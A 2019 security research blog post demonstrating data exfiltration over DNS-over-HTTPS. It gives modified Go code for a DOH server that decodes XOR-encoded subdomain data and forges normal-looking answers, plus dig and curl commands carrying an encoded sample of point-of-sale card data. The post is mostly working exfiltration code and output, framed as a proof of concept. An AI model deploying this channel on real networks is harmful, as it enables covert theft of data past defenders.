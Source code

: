 ```yaml
---
layout: post
title:  "Research into data exfiltration using DOH"
date:   2019-09-22 10:31:12 -0600
categories: exfiltration, c2
---
```


# Intro
Doing exfiltration over DNS isn't a new concept but recently there's been lots of people jumping on the DNS-over-HTTP(s)[[3]] bandwagon, which adds an interesting new layer to an existing TTP. This blog post is simply an aim to prove it's possibility.
We're going to start with existing code using a DOH server and client written by Star Brilliant[[1]]. This server and client are setup in a way that makes for easy testing where they allow the traffic to passthrough.


# Server
The relevant function in the server file is doDNSQuery which accepts a DNSRequest and then loops through the various upstreams to perform the DNS against. This would give us the ability to easily intercept, manipulate or otherwise inspect the requests that are sent. For a quick POC the idea I had was to add in a configuration value of a domain that we will look for, this means we will only look at decoding subdomains from specific requests and the rest will just passthrough as normal.

So we will add an element to the config structure which will tell the parser toml to look for and load the appropriate value in this case a value for our intercept domain.

```golang
	InterceptDomain  string   `toml:"intercept_domain"`
```

So in our configuration we will have:

```
intercept_domain = "google.com"
```

We will also need a function that can put back together the subdomain pieces, and if we want perform a decoding routine such as XOR.

```golang
func decodeData(data string) string {
	//fmt.Println(data)
	elements := strings.Split(data, string('.'))
	//elements = elements[:len(elements)-3]
	elements2 := strings.Join(elements[:len(elements)-3], string(""))
	blob, _ := hex.DecodeString(elements2)
	for i := 0; i < len(blob); i += 1 {
		blob[i] ^= 0xaa
	}
	return string(blob[:])

}
```

For interception we simply need to check if the request contains the target domain and if so keep a copy of the original host and overload the DNS question record with the target domain. This might seem silly but it prevents leaking our data to the upstream and also allows us to control every aspect of the answer to include overloading it if we so choose. It also muddies the water a bit when it comes to the fact that our fake subdomain resolves to the same IP as the real domain in the answer.

```golang
func (s *Server) doDNSQuery(ctx context.Context, req *DNSRequest) (resp *DNSRequest, err error) {
	// TODO(m13253): Make ctx work. Waiting for a patch for ExchangeContext from miekg/dns.
	numServers := len(s.conf.Upstream)
	//Here is the chance to hook into the request before relaying it forward
	//Need to just add code for checking for a configurable domain I think
	tgtDomain := s.conf.InterceptDomain
	origHost := req.request.Question[0].Name
	if strings.Contains(origHost, tgtDomain) {
		fmt.Println(decodeData(string(origHost)))
		//After decoding the data you would do a passthrough on the root domain without the subdomain data
		//Overwrite with original host
		newHost := retrieveHost(origHost)
		req.request.Question[0].Name = dns.Fqdn(newHost)
	}
```

Some simple code that just does a few checks and then if the original host contains the target domain we print out the decoded data and overwrite the question name with the root domain which in this case will be 'google.com'.

The only thing left will simply be replacing the response data with the original host.

```golang
		if err == nil {
			req.response.Answer[0].Header().Name = dns.Fqdn(origHost)
			req.response.Question[0].Name = dns.Fqdn(origHost)
			//Can overwrite with whatever IP
			/*
			rr := &dns.A{
			Hdr: dns.RR_Header{Name: dns.Fqdn(origHost), Rrtype: dns.TypeA, Class: dns.ClassINET, Ttl: 0},
			A:   net.ParseIP("127.0.0.1"),
			}
			req.response.Answer = []dns.RR{rr}
			*/
			//DEBUG
			//fmt.Println(req.response.Answer[0])
			//fmt.Println(req.response.Question[0])
			return req, nil
		}
		log.Printf("DNS error from upstream %s: %s\n", req.currentUpstream, err.Error())
	}
	return req, err
}
```

# POC execute

So let's test, I'm going to run the client from the git as a dns server pointed to 127.0.0.1 with my DOH server sitting on 8053. This just simplifies testing for me but you can also turn off the cert piece on the DOH server so that it doesn't use TLS and you can see the regular HTTP traffic pretty easily over loopback if you're interested in that.

```
$ dig c9c5c7da82f8cbc7cbdec2c5d8c484eee984efe484.e6e5e9868adad8c5c982dac5d984cfd2cf868acecbdecb82919.b98999e9f9c9d92939a9b98999e9e9.f9793939a9b9bf29b9af2f2f2f2f2f2f29a9a9a9a9a838383.google.com @127.0.0.1
```


On the server our decoded data is printed to the screen.

```
$ sudo ./doh-server


comp(Ramathorn.DC.EN.LOC, proc(pos.exe, data(;1234567890123445=99011X10XXXXXXX00000)))
```


We can also just use curl against the server directly instead of using the client piece

```
$ curl -v --doh-url  "https://127.0.0.1:8053/dns-query" "http://c9c5c7da82f8cbc7cbdec2c5d8c484eee984efe484.e6e5e9868adad8c5c982dac5d984cfd2cf868acecbdecb82919.b98999e9f9c9d92939a9b98999e9e9.f9793939a9b9bf29b9af2f2f2f2f2f2f29a9a9a9a9a838383.google.com"

```

Or

```
$ curl -k "https://127.0.0.1:8053/dns-query?ct=application/dns-message&dns=AAABIAABAAAAAAABKmM5YzVjN2RhODJmOGNiYzdjYmRlYzJjNWQ4YzQ4NGVlZTk4NGVmZTQ4NDNlNmU1ZTk4NjhhZGFkOGM1Yzk4MmRhYzVkOTg0Y2ZkMmNmODY4YWNlY2JkZWNiODI5MTkeYjk4OTk5ZTlmOWM5ZDkyOTM5YTliOTg5OTllOWU5MWY5NzkzOTM5YTliOWJmMjliOWFmMmYyZjJmMmYyZjJmMjlhOWE5YTlhOWE4MzgzODMGZ29vZ2xlA2NvbQAAAQABAAApEAAAAAAAAAA"

```


References:  
 1. https://github.com/m13253/dns-over-https  
 2. https://tools.ietf.org/html/rfc8484  
 3. https://github.com/curl/curl/wiki/DNS-over-HTTPS  
 4. https://github.com/miekg/exdns  



 
 
 


[1]:https://github.com/m13253/dns-over-https
[2]:https://tools.ietf.org/html/rfc8484
[3]:https://github.com/curl/curl/wiki/DNS-over-HTTPS
[4]:https://github.com/miekg/exdns


